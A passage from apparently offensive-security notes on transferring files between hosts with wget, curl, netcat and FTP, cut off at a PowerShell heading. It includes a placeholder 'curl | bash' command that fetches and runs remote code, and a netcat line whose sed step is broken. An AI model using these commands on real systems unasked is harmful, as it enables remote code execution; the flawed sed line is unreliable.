 In the destination, you can save the file with another name.

### Wget

Wget is a common tool in Linux systems. It allows downloading files from the internet.

Now from the server we can download the file we are hosting:

```
wget <URL>:<PORT>/<FILE -O <OUTFILE>
```

> To download is the same concept but changing who is the server and who's the client.

### Curl

As Wget is a tool that many Linux systems have.

To download a file:

```
curl <URL>:<PORT>/<FILE> -o <OUTFILE>
```

To directly execute a file without downloading it, for example, a bash script:

```
curl -fsSL <URL>:<PORT>/<FILE> | bash
```

### Netcat

Netcat is the most powerful hacking tool as it provides a direct connection between devices.

To download a file we can simulate a GET Request:

```
echo "GET /<FILE> HTTP/1.0" | nc -n <IP> <PORT> > <OUTFILE> && sed -i '1,7' <OUTFILE>
```

Sed is used to remove part of the raw data transmitted that doesn't have to do with the original file.

### FTP

We can upload or download files via FTP. To connect to a server:

```
ftp <IP>
```

To upload `put` command is used and to download is `get`.

If the anonymous user is allowed, then we can enter `anonymous` when it asks for the user.

## Windows

### Powershell
